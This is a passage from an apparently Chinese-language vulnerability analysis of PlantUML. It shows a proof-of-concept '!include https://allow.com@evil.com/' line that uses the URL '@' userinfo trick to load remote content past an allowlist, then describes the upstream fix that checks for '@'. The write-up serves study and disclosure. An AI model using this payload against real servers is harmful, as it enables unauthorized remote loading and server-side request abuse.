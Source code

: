 综上，可以得到对应的poc为：

```Java
@startuml
!include https://allow.com@evil.com/
a -> b: %load_json()
@enduml
```

## 1.3 漏洞修复

通过对比修复方式可以知道：

[https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0f](https://github.com/plantuml/plantuml/commit/b32500bb61ae617bb312496d6d832e4be8190797#diff-c39d9b156bb6f66caa73b1859ae2f15630567d52c1d19c30dbb955a53fe5ca0f)

![image.png](assets/1700702247-15e5954d6c57cfd22ffc95769a45e934.png)

主要是对URL (Uniform Resource Locator) 中的@ 符号（用于在URL 中指定登录信息。 具体来说，它用于指定用户名和密码，以便登录远程服务器）进行了检查。

可以看到修复后，已经没办法加载对应的URL了:

